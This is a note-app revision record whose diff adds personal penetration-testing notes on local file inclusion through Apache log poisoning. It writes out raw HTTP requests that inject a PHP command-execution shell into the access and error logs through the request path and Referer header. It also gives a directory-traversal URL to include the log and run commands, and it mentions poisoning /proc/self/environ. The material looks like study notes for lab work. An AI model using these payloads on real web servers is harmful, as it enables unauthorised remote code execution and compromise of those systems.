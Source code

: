 id: becd9280fc1c4366b6862c34668ef968
parent_id: d5a2078bdcac4995acd0c137e37a3d8a
item_type: 1
item_id: 78f0d945ef914f6c8342ed9db47e13fa
item_updated_time: 1643163250971
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"   -\"],[-1,\"  \"],[0,\" htt\"]],\"start1\":3039,\"start2\":3039,\"length1\":10,\"length2\":8},{\"diffs\":[[0,\"2 80\\\n> \\\n\"],[1,\"> #1st way to access log\\\n> \\\n\"],[0,\"> &lt;?p\"]],\"start1\":3589,\"start2\":3589,\"length1\":16,\"length2\":44},{\"diffs\":[[0,\" \\\n> \"],[-1,\"\\\\# To access log\\\n\\\nAfter writing to the log file, run the file\\\n\\\n> http://192.168.1.102/index.php?page=../../../../../var/log/apache2/access.log&cmd=id\"],[1,\"#2nd way to access log: Create Get Request\\\n> \\\n> ```\\\n> GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1\\\n> Host: 192.168.1.102\\\n> Connection: close\\\n> ```\\\n> \\\n> \\\\# To access Error logs : Create a problematic request\\\n> \\\n> ```\\\n> GET /AAAAAA<?php passthru($_GET['cmd']); ?> HTTP/1.1\\\n> Host: 192.168.1.102\\\n> Connection: close\\\n> ```\\\n> \\\n> \\\\# You can also use the Referer Parameter to execute\\\n> \\\n> ```\\\n> GET / HTTP/1.1\\\n> Referer: <? passthru($_GET[cmd]) ?>\\\n> Host: 192.168.1.159\\\n> Connection: close\\\n> ```\\\n\\\nAfter writing to the log file, run the file\\\n\\\n> http://192.168.1.102/index.php?page=../../../../../var/log/apache2/access.log&cmd=id\\\n\\\nNote: If you can read proc-files on the system, you may be able to poison them too through the user agent\\\n\\\nWe can also inject code into /proc/self/environ through the user-agent\\\n\\\nhttps://www.exploit-db.com/papers/12992/\\\n\\\nhttps://www.youtube.com/watch?v=ttTVNcPnsJY\"],[0,\"\\\n\\\n# \"]],\"start1\":3703,\"start2\":3703,\"length1\":157,\"length2\":897},{\"diffs\":[[0,\"savefile.php\"],[1,\"\\\n\\\n# PHP Wrappers\"]],\"start1\":5148,\"start2\":5148,\"length1\":12,\"length2\":28}]"
metadata_diff: {"new":{"order":1629829707599.5},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-26T02:14:56.113Z
created_time: 2022-01-26T02:14:56.113Z
type_: 13
